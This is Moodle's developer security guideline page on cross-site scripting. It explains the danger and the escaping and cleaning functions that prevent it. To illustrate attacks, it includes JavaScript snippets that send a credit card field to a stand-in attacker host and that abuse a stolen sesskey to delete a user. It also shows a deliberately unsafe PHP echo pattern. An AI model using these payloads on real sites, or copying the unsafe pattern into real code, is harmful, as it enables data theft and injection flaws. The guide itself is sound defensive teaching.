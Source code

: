 ```yaml
---
title: Cross-site scripting
sidebar_position: 4
tags:
  - Coding guidelines
  - Policies
  - Security
---
```


:::note

This page forms part of the [Moodle security guidelines](../security).

:::

## What is the danger?

Normally, web browsers prevent JavaScript from the server from affecting content that comes from another server. For example, suppose that on your Moodle page (`http://mymooodle.com`), you have an iframe displaying an advert from `http://makemerich.com`. Then, the JavaScript code in the advert cannot access anything on your page.

In Moodle, we actually let users type in HTML, then we display that HTML as part of our web site. Therefore, any JavaScript they manage to include will have full access to everything on the page.

Why is that a problem? Well, suppose Evil Hacker manages to get some code like

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://evilhacker.com/savedata.php?creditcard=' +
     document.getElementById('creditcard').value + '" />');
```

on a page where the user types in their credit card number. Actually, that scenario is quite unlikely in Moodle, but there are more plausible scenarios that are possible.

Another problem is that XSS makes it much easier for Evil Hacker get round sesskey protection. For example:

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://example.com/moodle/user/delete.php?id=123&confirm=1&sesskey=' +
     document.getElementById('sesskey').value + '" />');
```

Or even more sophisticated, the JavaScript to do that as a POST request, in a forum where an Administrator would go, would be very bad.

Note that, at least in Internet Explorer, JavaScript can be hidden in CSS style information, as well as in the HTML. Java applets can also be used to execute scripting, as well as the browser's JavaScript engine.

Note also that dangerous content may not only be input into Moodle directly by a user. It may also come, for example, from an external RSS feed.

## How Moodle avoids this problem

The simplest solution to XSS attacks is to **never let the user input rich content** like HTML or upload plugins like Java applets. Unfortunately, with Moodle we want to let our users communicate using rich content. For example, we want students to be able to express themselves by making forum posts in flashing orange text. We want teacher to be able to upload interesting applets for use by their students. Therefore, we have to compromise.

### Escaping output

Moodle divides content that has been input by the user into four categories:

1. **Plain text content**. For example, a student's response to a short answer question.
2. **Labels that are plain text**, except that they main contain multi-lang spans. For example, a course name or section heading.
3. **HTML (or wiki, markdown) content**, that might have been input by anyone. For example, the body of a forum post.
4. **HTML (or wiki, markdown) content**, that could only have been input by a **trusted user**, like a teacher. For example, the body of a web page resource.

Depending on the type of content, you need to use the appropriate function to output it. For example, if you have plain text content, you should use the `s()` function to output it. That will replace any `<` character with `&lt;`. If that is done, there is no way that the input can be interpreted as JavaScript.

### Escaping output 2 - JavaScript

The other place you need to be careful is when you are sending data to JavaScript. For example, if you generate JavaScript in your PHP code like

```php
echo '<script type="text/javascript">';
echo 'alert("' . $userinput . '");';
echo '</script>';
```

and Evil hacker can make `$userinput` equal to something like:

```php
); /* Do something evil. */ (
```

then they can get whatever code they choose to put in the `/* Do something evil. */` space to run within your web page.

The best solution is to not echo JavaScript like this. Instead, follow the [JavaScript guidelines](/docs/guides/javascript), and put your JavaScript in an external file, and communicate with it using `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call`. Those two methods properly encode any PHP data to be passed to JavaScript using `json_encode`.

### Cleaning input

The other part of the protection is cleaning up data as it comes in. This is done using the `optional_param` or `required_param` functions. For example, if you say you are expecting an integer as input, by passing `PARAM_INT`, then you will only get an integer back. Once you know that a variable only contains an integer value, you can be sure it does not contain any malicious JavaScript.

However, for very complex input, like HTML, doing the cleaning is very tricky, and the code is likely to handle some complex situations badly. The algorithms will almost certainly be improved in the future, so for complex content, we store the raw input in the database, and only do the cleaning when it is output, using the latest algorithms.

## What you need to do in your code

- Get input values using `optional_param` or `required_param` with an appropriate `PARAM_*` type, to ensure that only data of the type you expect is accepted.
- Alternatively, use a [moodleforms](/docs/apis/subsystems/form), with appropriate `->setType` calls in the form definition.
- Clean or escape content appropriately on output.
  - Use `s()` or `p()` to output plain text content (type 1 above).
  - Use `format_string` to output content with minimal HTML like multi-lang spans (type 2 above).
  - Use `format_text` to output all other content (types 3 and 4 above). How carefully it is cleaned (that is, the difference between type 3 and 4) depends on the `$options->noclean` argument to `format_text`.
- Any place where a use can input content that is output by `format_text`, `$options->noclean`, must be protected by a capability check, and the capability must be marked as `RISK_XSS`.
- When sending data to JavaScript code:
  - Use the `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call` methods.
  - In Moodle 1.9 and earlier, escape the data with `addslashes_js` before printing it into the JavaScript code.

:::info

Follow the [Output functions](/docs/apis/subsystems/output#output-functions) link to get a best understanding of how dynamic data should be sent from Moodle to the browser.

:::

## What you need to do as an administrator

- Do not allow a user to have a capability with `RISK_XSS` unless you trust them.
  - The [Security overview](https://docs.moodle.org//en/Security_overview) report can help you check this.
- From Moodle 3.5 onwards, you can enable setting **Content cleaning everywhere**(`$CFG->forceclean`).

## See also

- [Security](../security)
- [Coding](../../policies.md)
